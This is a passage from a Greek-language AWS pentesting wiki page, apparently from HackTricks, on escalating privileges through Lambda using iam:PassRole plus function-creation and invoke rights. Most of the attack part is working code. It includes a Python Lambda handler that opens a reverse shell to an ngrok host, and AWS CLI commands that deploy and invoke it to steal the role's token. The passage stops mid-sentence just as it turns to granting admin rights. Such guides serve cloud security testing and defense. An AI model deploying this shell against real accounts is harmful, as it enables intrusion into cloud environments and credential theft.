 # AWS - Εscalation προνομίων Lambda

<details><summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## lambda

Περισσότερες πληροφορίες σχετικά με το lambda σε:

{% content-ref url="../aws-services/aws-lambda-enum.md" %}
[aws-lambda-enum.md](../aws-services/aws-lambda-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `lambda:CreateFunction`, (`lambda:InvokeFunction` | `lambda:InvokeFunctionUrl`)

Οι χρήστες με τα δικαιώματα **`iam:PassRole`, `lambda:CreateFunction`, και `lambda:InvokeFunction`** μπορούν να εξελίξουν τα προνόμιά τους.\
Μπορούν **να δημιουργήσουν μια νέα λειτουργία Lambda και να την αναθέσουν σε έναν υπάρχοντα ρόλο IAM**, χορηγώντας στη λειτουργία τα δικαιώματα που σχετίζονται με αυτόν το ρόλο. Ο χρήστης μπορεί στη συνέχεια **να γράψει και να μεταφορτώσει κώδικα σε αυτήν τη λειτουργία Lambda (με ένα αντίστροφο κέλυφος για παράδειγμα)**.\
Μόλις η λειτουργία είναι εγκατεστημένη, ο χρήστης μπορεί **να ενεργοποιήσει την εκτέλεσή της** και τις επιθυμητές ενέργειες καλύπτοντας τη λειτουργία Lambda μέσω του API του AWS. Με αυτήν την προσέγγιση, ο χρήστης μπορεί αποτελεσματικά να εκτελέσει εργασίες έμμεσα μέσω της λειτουργίας Lambda, λειτουργώντας με το επίπεδο πρόσβασης που χορηγείται στον ρόλο IAM που συσχετίζεται με αυτήν.\\

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτό για να πάρει ένα **αντίστροφο κέλυφος και να κλέψει το διακριτικό**:

{% code title="rev.py" %}
```python
import socket,subprocess,os,time
def lambda_handler(event, context):
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('4.tcp.ngrok.io',14305))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])
time.sleep(900)
return 0
```
{% endcode %}
```bash
# Zip the rev shell
zip "rev.zip" "rev.py"

# Create the function
aws lambda create-function --function-name my_function \
--runtime python3.9 --role <arn_of_lambda_role> \
--handler rev.lambda_handler --zip-file fileb://rev.zip

# Invoke the function
aws lambda invoke --function-name my_function output.txt
## If you have the lambda:InvokeFunctionUrl permission you need to expose the lambda inan URL and execute it via the URL

# List roles
aws iam list-attached-user-policies --user-name <user-name>
```
Μπορείτε επίσης **να καταχραστείτε τα δικαιώματα του ρόλου lambda** από τη λειτουργία lambda ίδια.\
Αν ο ρόλος lambda είχε αρκετά δικαιώματα, θα μπορούσατε να το χρησιμοποιήσετε για να σας χορηγήσει δικαιώματα διαχειριστή: